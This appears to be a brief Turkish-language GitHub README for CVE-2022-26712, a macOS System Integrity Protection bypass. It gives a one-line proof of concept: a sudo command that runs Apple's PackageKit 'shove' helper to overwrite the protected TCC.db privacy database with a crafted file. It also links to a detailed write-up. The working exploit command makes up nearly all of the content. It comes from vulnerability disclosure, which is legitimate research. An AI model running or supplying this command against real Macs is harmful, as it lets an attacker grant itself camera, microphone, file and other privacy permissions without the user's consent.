# CVE-2022-26712

Tek satırda POC:

`sudo /System/Library/PrivateFrameworks/PackageKit.framework/Versions/A/Resources/shove -X /tmp/crafted.db /Library/Application\ Support/com.apple.TCC/TCC.db`

Detaylı bir şekilde incelemek isterseniz: https://jhftss.github.io/CVE-2022-26712-The-POC-For-SIP-Bypass-Is-Even-Tweetable/

